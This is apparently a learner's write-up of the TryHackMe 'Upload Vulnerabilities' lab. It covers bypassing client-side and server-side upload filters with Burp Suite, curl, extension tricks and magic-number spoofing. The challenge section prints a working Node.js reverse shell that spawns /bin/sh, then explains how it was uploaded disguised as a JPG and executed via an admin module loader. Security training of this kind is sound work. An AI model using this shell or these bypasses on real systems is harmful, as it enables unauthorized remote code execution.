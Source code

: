 # TryHackMe: Complete Beginner

## Upload Vulnerabilities

### Bypassing Client-Side Filtering

How to bypass:

* Just turn off JavaScript.
* Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
* Use Burp Suite to modify the file upload *after* it has passed the filters.
* Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept > Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we'll need to modify the proxy's default file extension filter under "Options".

Modifying the file upload itself is much easier, as this can be done using Burp Suite's normal interception flow. Note that Burp Suite *cannot* attach new files, so we'll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```bash
curl -X POST -F "submit=$SUBMIT_VALUE" -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

### Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for [PHP](https://en.wikipedia.org/wiki/PHP):

* .php
* .phar
* .phtml
* .pht
* .phps (though I've always seen this as *source* code)
* .php# (where `#` is the running PHP major version)

### Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don't have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia's list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you've effectively spoofed a file's magic number.

Note that this can be a lot trickier if you're not dealing with PHP, since many languages don't have PHP's concept of interpreted vs. non-interpreted bits.

### Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we're dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there's no option here, gobuster's -x switch allows a search for specific file extensions (but then the search is *within* a particular directory).

There's probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here... Tricks:

* Use completely valid and invalid extensions to check for the presence of white/blacklists.
* Try changing the magic number of a known good file to see if magic number filtering is in place.

### Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I'll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server's response when loading a page indicates that it is running [Express](http://expressjs.com/). So we'll need a Node.js compatible reverse shell. I used the first option from the [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) (note that the port and IP address in line 6 need to be customized).

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents the Node.js application from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn't work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell *without* the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn't seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the [challenge hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/), most of which it turned out I'd already figured out. But Hint 9 suggested looking at the /admin page, which I hadn't bothered to try to visit. LET THAT BE A LESSON TO ME — POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we're going to get the Express app to execute the reverse shell (I'd been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

- - - -

👤 Nathan Acks
📅 October 9, 2021
